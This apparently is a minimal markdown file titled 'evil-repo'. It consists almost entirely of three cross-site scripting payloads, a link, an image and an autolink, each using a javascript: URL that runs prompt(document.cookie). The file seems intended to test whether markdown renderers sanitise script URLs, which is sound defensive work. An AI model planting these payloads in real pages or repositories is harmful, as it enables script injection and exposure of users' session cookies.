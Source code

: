 evil-repo
=========

[a](javascript:prompt(document.cookie))
![a](javascript:prompt(document.cookie))
<javascript:prompt(document.cookie)>
